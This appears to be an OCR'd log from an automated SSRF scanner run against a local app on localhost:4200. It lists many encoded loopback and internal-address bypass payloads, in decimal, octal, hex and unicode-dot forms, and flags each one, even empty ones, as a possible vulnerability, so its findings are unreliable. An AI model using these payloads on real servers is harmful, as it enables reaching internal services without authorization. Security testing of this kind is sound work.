  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2F%2F%2Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2500google.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2500google.com` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%3Fgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%3Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%2F%2Fgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2F%2F%2Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=localtest.me`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localtest.me` _(POST)_
- Testing: `http://localhost:4200/?url=http%3A%400%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=http%3A%400%2F` _(POST)_
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B%3A%3A%5D%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=127%E3%80%820%E3%80%820%E3%80%821`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127%E3%80%820%E3%80%820%E3%80%821` _(POST)_
- Testing: `http://localhost:4200/?url=127%25E3%2580%25820%25E3%2580%25820%25E3%2580%25821`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127%25E3%2580%25820%25E3%2580%25820%25E3%2580%25821` _(POST)_
- Testing: `http://localhost:4200/?url=2130706433%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=2130706433%2F` _(POST)_
- Testing: `http://localhost:4200/?url=3232235521%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=3232235521%2F` _(POST)_
- Testing: `http://localhost:4200/?url=3232235777%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=3232235777%2F` _(POST)_
- Testing: `http://localhost:4200/?url=0177.0000.0000.0001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0177.0000.0000.0001` _(POST)_
- Testing: `http://localhost:4200/?url=00000177.00000000.00000000.00000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=00000177.00000000.00000000.00000001` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f000001%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f000001%2F` _(POST)_
- Testing: `http://localhost:4200/?url=0xc0a80014%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0xc0a80014%2F` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f.0x00.0x00.0x01`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f.0x00.0x00.0x01` _(POST)_
- Testing: `http://localhost:4200/?url=0x0000007f.0x00000000.0x00000000.0x00000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x0000007f.0x00000000.0x00000000.0x00000001` _(POST)_
- Testing: `http://localhost:4200/?url=127.000000000000.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.000000000000.1` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A%2B11211aaa`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A%2B11211aaa` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A00011211aaaa`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A00011211aaaa` _(POST)_
- Testing: `http://localhost:4200/?url=0%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0%2F` _(POST)_
- Testing: `http://localhost:4200/?url=127.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.1`